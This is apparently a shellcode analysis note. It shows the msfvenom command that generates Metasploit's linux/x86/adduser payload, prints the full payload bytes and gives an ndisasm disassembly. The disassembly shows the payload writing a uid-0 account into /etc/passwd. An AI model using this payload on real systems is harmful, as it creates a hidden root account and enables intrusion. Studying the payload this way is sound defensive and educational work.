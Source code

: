 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/adduser -f c USER=username PASS=pass123
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x26\x00\x00\x00\x75\x73\x65\x72\x6e\x61\x6d\x65\x3a\x41\x7a\x79\x64\x77\x66\x6f\x69\x67\x42\x54\x72\x73\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E826000000        call 0x51
0000002B  7573              jnz 0xa0
0000002D  65726E            gs jc 0x9e
00000030  61                popa
00000031  6D                insd
00000032  653A417A          cmp al,[gs:ecx+0x7a]
00000036  7964              jns 0x9c
00000038  7766              ja 0xa0
0000003A  6F                outsd
0000003B  6967425472733A    imul esp,[edi+0x42],dword 0x3a737254
00000042  303A              xor [edx],bh
00000044  303A              xor [edx],bh
00000046  3A2F              cmp ch,[edi]
00000048  3A2F              cmp ch,[edi]
0000004A  62696E            bound ebp,[ecx+0x6e]
0000004D  2F                das
0000004E  7368              jnc 0xb8
00000050  0A598B            or bl,[ecx-0x75]
00000053  51                push ecx
00000054  FC                cld
```